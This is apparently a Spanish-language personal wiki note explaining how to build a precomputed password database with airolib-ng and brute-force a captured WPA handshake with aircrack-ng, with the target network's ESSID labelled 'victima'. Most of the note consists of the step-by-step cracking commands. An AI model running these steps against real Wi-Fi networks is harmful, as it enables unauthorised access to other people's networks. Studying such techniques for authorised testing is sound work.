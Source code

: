 Las [[Rainbow table]] son diccionarios decontraseñas con la diferencia que estan contienen la contraseña y el valor hash que representa, con el fin de que el proceso de el ataque de fuerza bruta sea mucho mas eficaz.

Con ayuda de la herramienta de airolib-ng de la familia de aircrack podemos construir una rainbow table.

	airolib-ng diccPre --import passwd dicc.txt
Creamos la tabla proporcionando el nombre que tendra esta e importando el diccionario en texto plano con el parametro *passwd*.

	echo "ESSID_victima" > essid.lst
Creamos un archivo con el bssid del AC que deseamos atacar.
-.essid.lst [[Airolib-ng#Archivo lst]]

	airolib-ng diccPre --import essid essid.lst
Importamos el essid al igual que las passwords

	airolib-ng diccPre --stats
Para saber si todo si importo correctamente, podemos observar las passwords y el essid asociado.
``` bash
There are 1 ESSIDs and 1 passwords in the database. 0 out of 1 possible combinations have been computed (0%).

ESSID	Priority	Done
BSSID_victima	64	0.0
```

	airolib-ng diccPre --clean all
Limpia la basura de la db.

	airolib-ng diccPre --batch
Comiensa a procesar las contrseñas para tener ya el diccionario preposesado 

	aircrack-ng -r diccPre CapturaDeAuth-01.cap
Realizamos el ataque de fuerza bruta con aircrack
-r *Indicamos que el diccionario es una db por lo tanto lo toma como una rainbow table*













### Notas
#### Archivo .lst
La extensión de archivo LST se utiliza para un archivo de lista de datos y se refiere a varios tipos de información que es utilizada por múltiples tipos de programas. Listas como estos pueden ser transferidos a cualquier programa de base de datos o aplicación de hoja de cálculo.